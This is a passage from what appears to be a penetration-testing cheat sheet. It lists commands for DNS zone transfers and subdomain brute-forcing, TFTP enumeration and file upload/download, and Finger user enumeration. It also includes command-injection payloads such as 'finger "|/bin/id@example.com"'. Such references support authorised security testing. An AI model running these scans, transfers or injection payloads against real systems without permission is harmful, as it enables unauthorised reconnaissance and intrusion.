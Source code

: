 ```bash
host -a domain.com
host -l domain.com ns1.domain.com

dnsrecon -d <DOMAIN.COM> -t axfr @ns2.<DOMAIN.COM>
dnsrecon -d  -D /usr/share/wordlists/dnsmap.txt -t std --xml ouput.xml
dnsenum domain.com

# DNS - Subdomains bruteforce
dnsrecon -D subdomains-1000.txt -d <DOMAIN> -n <IP_DNS>

# Dnscan tool https://github.com/rbsec/dnscan
dnscan -d <domain> -r -w subdomains-1000.txt #Bruteforce subdomains in recursive way, 

# Bruteforce with bash
for sub in $(cat subdomains.txt);do host $sub.domain.com|grep "has.address";done

```

### Port 69 - UDP - TFTP
```bash
nmap -p69 --script=tftp-enum.nse $IP # Or
nmap -n -Pn -sU -p69 -sV --script tftp-enum $IP

# Download Upload
msf5> auxiliary/admin/tftp/tftp_transfer_util

```
```python
import tftpy
client = tftpy.TftpClient(<ADDRESS>, <PORT>)
client.download("filename in server", "/tmp/filename", timeout=5)
client.upload("filename to upload", "/local/path/file", timeout=5)

```
### Port 79 - Finger
```bash
# Enumeration Banner Grabbing/Basic connection
nc -vn $IP 79
echo "root" | nc -vn $IP 79

# User enumeration
finger @$IP       #List users
finger admin@$IP  #Get info of user
finger user@$IP   #Get info of user

# msf
use auxiliary/scanner/finger/finger_users

# command execution
finger "|/bin/id@example.com"
finger "|/bin/ls -a /@example.com"

```
### Port 80 - Web Server (Common CMS Enumeration Techniues)
